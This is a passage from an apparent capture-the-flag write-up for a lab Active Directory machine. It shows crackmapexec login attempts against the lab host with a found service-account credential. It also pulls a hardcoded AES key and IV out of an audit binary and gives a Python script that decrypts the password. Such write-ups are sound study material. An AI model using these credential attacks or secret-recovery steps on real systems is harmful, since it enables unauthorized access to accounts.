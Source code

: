 ```
INSERT INTO DeletedUserAudit VALUES(9,'TempAdmin',replace('TempAdmin\nDEL:5ea231a1-5bb4-4917-b07a-75a57f4c188a','\n',char(10)),'CN=TempAdmin\0ADEL:5ea231a1-5bb4-4917-b07a-75a57f4c188a,CN=Deleted Objects,DC=cascade,DC=local');
DELETE FROM sqlite_sequence;
INSERT INTO sqlite_sequence VALUES('Ldap',2);
INSERT INTO sqlite_sequence VALUES('DeletedUserAudit',10);
COMMIT;
```
	- We see some ArkSvc credentials : `ArkSvc`:`BQO5l5Kj9MdErXx6Q6AGOw==`
		- We use it but fails. We try to decrypt base64 on it but it doesn't give anything readable
			```bash
echo "BQO5l5Kj9MdErXx6Q6AGOw==" | base64 -d

## Failed/ No hits
crackmapexec smb 10.10.10.182 -u 'ArkSvc' -p 'BQO5l5Kj9MdErXx6Q6AGOw=='
crackmapexec winrm 10.10.10.182 -u 'ArkSvc' -p 'BQO5l5Kj9MdErXx6Q6AGOw=='


---OUTPUT-ECHO---
������D�|zC�;
```
- I then decide to analyze the CascAudit.exe file with dnSpy ( I move all thse files to my Windows host for this)
	- I check the main module and I see a command :
		```bash
password = Crypto.DecryptString(encryptedString, "c4scadek3y654321");
```
		- If we check Crypto.DecryptString function it will eplain how it decrypts (basically takes a key and encrypted string as arguments to decrypt)
			- Uses AES encryption with a key. Using this and the base64 encoded password, we can write a code to decrypt it:
				```python
from base64 import b64decode
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad

def decrypt_string(encrypted_b64: str, key: str) -> str:
    iv = b"1tdyjCbY1Ix49842"  # 16-byte IV from the original C# code
    key_bytes = key.encode('utf-8')  # 16-byte key for AES-128
    encrypted_bytes = b64decode(encrypted_b64)

    cipher = AES.new(key_bytes, AES.MODE_CBC, iv)
    decrypted = cipher.decrypt(encrypted_bytes)

    try:
        plaintext = unpad(decrypted, AES.block_size)
    except ValueError:
        raise Exception("Invalid padding. Possibly wrong key or corrupted data.")
    
    return plaintext.decode('utf-8')

# Your encrypted data and key
encrypted = "BQO5l5Kj9MdErXx6Q6AGOw=="
key = "c4scadek3y654321"

